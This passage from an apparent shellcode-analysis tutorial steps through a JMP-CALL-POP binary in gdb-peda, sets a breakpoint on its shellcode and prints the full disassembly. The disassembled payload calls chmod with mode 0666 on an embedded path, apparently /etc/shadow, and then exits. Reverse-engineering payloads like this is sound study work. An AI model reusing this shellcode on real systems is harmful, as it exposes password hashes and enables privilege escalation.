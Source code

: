 Great! Our payload works as intended. Now lets set a breakpoint and analyze the shellcode with `gdb`.

## Disassembling the Shellcode with gdb
We will start the program with `gdb`, and set a breakpoint for our `shellcode`. Once control is passed to `shellcode` we will step through it in `gdb`.  

### Setting up gdb for analysis
#### Starting the Shellcode with gdb

```console
root# gdb ./jmpCallPop
```

#### Finding the Memory Location of our Shellcode
```console
gdb-peda$ info functions
All defined functions:
Non-debugging symbols:
0x08048060  _start
0x08048062  decoder
0x08048063  jmp2_shellcode
0x08048066  call_shellcode
0x0804806b  shellcode
```

#### Setting the Breakpoint in gdb
```console
gdb-peda$ b shellcode
Breakpoint 1 at 0x804806b
```
#### Running & Disassembling the Shellcode 
```console
gdb-peda$ run
gdb-peda$ disassemble $eip
Dump of assembler code for function shellcode:
=> 0x0804806b <+0>:     cdq
   0x0804806c <+1>:     push   0xf
   0x0804806e <+3>:     pop    eax
   0x0804806f <+4>:     push   edx
   0x08048070 <+5>:     call   0x8048081 <shellcode+22>
   0x08048075 <+10>:    das
   0x08048076 <+11>:    gs
   0x08048077 <+12>:    je     0x80480dc
   0x08048079 <+14>:    das
   0x0804807a <+15>:    jae    0x80480e4
   0x0804807c <+17>:    popa
   0x0804807d <+18>:    outs   dx,DWORD PTR fs:[esi]
   0x0804807f <+20>:    ja     0x8048081 <shellcode+22>
   0x08048081 <+22>:    pop    ebx
   0x08048082 <+23>:    push   0x1b6
   0x08048087 <+28>:    pop    ecx
   0x08048088 <+29>:    int    0x80
   0x0804808a <+31>:    push   0x1
   0x0804808c <+33>:    pop    eax
   0x0804808d <+34>:    int    0x80
End of assembler dump.
```
Great! Now we will break these instructions into systemcall sections and then disect them block by block.
